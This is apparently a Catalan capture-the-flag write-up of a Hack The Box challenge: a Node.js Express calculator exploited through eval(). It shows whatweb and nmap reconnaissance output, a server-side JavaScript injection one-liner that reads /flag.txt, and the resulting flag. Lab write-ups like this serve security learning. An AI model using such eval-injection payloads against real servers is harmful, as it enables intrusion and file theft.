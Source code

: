 Anem a la IP + port que se'ns dóna:

Veiem el que bàsicament és una calculadora. El que veiem al text que ens mostra la web és que hi ha la funció eval() que fa que ens puguin injectar codi, per tant, sempre la hem d’evitar. La funció interpreta el que posem a dins hi posem el que hi posem.

El que podem començar fent contra aquesta web amb la IP i port que tenim és fer whatweb (és el mateix que l’extensió Wappalyzer):


```
`┌──(root㉿polkali)-[/home/polkali]

└─# whatweb http://94.237.48.205:56687/

http://94.237.48.205:56687/ [200 OK] Bootstrap[4.3.1], Country[FINLAND][FI], IP[94.237.48.205], JQuery, Script[text/javascript], Title[🦑calc 0.1], X-Powered-By[Express]
````
  

Veiem que la web està feta amb X-Powered-By[Express] i ho busquem al navegador veiem que Express és:

  Express **es el framework web más popular de Node, y es la librería subyacente para un gran número de otros frameworks web de Node populares**. Proporciona mecanismos para: Escritura de manejadores de peticiones con diferentes verbos HTTP en diferentes caminos URL (rutas).17 oct 2023

I veiem que està en Node, ja coneixem el llenguatje, que és Javascript del costat del servidor.

  
Ara tirarem un nmap:

```
`┌──(root㉿polkali)-[/home/polkali]

└─# nmap -p 56687 -sV -v 94.237.48.205

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 18:29 CET

NSE: Loaded 46 scripts for scanning.

Initiating Ping Scan at 18:29

Scanning 94.237.48.205 [4 ports]

Completed Ping Scan at 18:29, 0.02s elapsed (1 total hosts)

Initiating Parallel DNS resolution of 1 host. at 18:29

Completed Parallel DNS resolution of 1 host. at 18:29, 0.00s elapsed

Initiating SYN Stealth Scan at 18:29

Scanning 94-237-48-205.uk-lon1.upcloud.host (94.237.48.205) [1 port]

Discovered open port 56687/tcp on 94.237.48.205

Completed SYN Stealth Scan at 18:29, 0.04s elapsed (1 total ports)

Initiating Service scan at 18:29

Scanning 1 service on 94-237-48-205.uk-lon1.upcloud.host (94.237.48.205)

Completed Service scan at 18:29, 11.15s elapsed (1 service on 1 host)

NSE: Script scanning 94.237.48.205.

Initiating NSE at 18:29

Completed NSE at 18:29, 0.17s elapsed

Initiating NSE at 18:29

Completed NSE at 18:29, 0.14s elapsed

Nmap scan report for 94-237-48-205.uk-lon1.upcloud.host (94.237.48.205)

Host is up (0.0046s latency).

  

PORT STATE SERVICE VERSION

56687/tcp open http Node.js Express framework

  
Read data files from: /usr/bin/../share/nmap

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds

Raw packets sent: 5 (196B) | Rcvd: 2 (84B)`
```


Veiem com efectivament estpa obert el port per TCP i que a darrere hi tenim un Node.js Express framework.

Buscarem al navegador com llegir fitxers amb Node.js és a dir fer un cat amb Node. Amb una sola línia treurem la flag injectant a que sempre que injectem hem de posar totes les comandes amb una sola línia. Sempre amb coses així hem de buscar Oneliners i [https://book.hacktricks.xyz/welcome/readme](https://book.hacktricks.xyz/welcome/readme) ens pot servir per fer-ho.

La comanda amb una línia que hem fet és la següent, mirant la documentació de Node.js:


``require('fs').readFileSync('/flag.txt').toString();``

 
**HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}**
